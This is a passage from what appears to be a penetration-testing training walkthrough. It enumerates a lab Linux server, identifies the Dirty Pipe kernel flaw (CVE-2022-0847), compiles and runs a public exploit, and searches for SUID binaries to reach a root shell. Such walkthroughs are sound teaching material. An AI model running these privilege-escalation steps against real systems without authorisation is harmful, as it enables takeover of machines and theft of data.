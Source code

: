 ```shell-session
The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon May 23 08:48:13 2022 from 172.16.0.1
```

As a final step we'll enumerate the target system, checking for local privilege escalation opportunities. If we can get root-level access we'll have fulfilled the client's main goal, as they stated that this server holds their "crown jewels", or most important data. During our enumeration we do a Google search based off of the Kernel version and see that it's likely vulnerable to the [DirtyPipe](https://www.cisa.gov/uscert/ncas/current-activity/2022/03/10/dirty-pipe-privilege-escalation-vulnerability-linux), `CVE-2022-0847`. We can read an excellent explanation of this vulnerability on the [Hack The Box blog](https://www.hackthebox.com/blog/Dirty-Pipe-Explained-CVE-2022-0847).

```shell-session
ssmallsadm@MGMT01:~$ uname -a

Linux MGMT01 5.10.0-051000-generic #202012132330 SMP Sun Dec 13 23:33:36 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

We'll use exploit-2 from [this GitHub repo](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits). Since we have SSH access to the system, we can create a file with `Vim` and paste the exploit code in. We then must compile it, and luckily `gcc` is present on the system.

```shell-session
ssmallsadm@MGMT01:~$ gcc dirtypipe.c -o dirtypipe
ssmallsadm@MGMT01:~$ chmod +x dirtypipe
ssmallsadm@MGMT01:~$ ./dirtypipe 

Usage: ./dirtypipe SUID
```

We must run the exploit against a SUID binary to inject and overwrite memory in a root process. So first we need to search SUID binaries on the system.

```shell-session
ssmallsadm@MGMT01:~$ find / -perm -4000 2>/dev/null

/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/fusermount

<SNIP>
```

Finally, we'll run the exploit against the `/usr/lib/openssh/ssh-keysign` SUID binary and drop into a root shell.
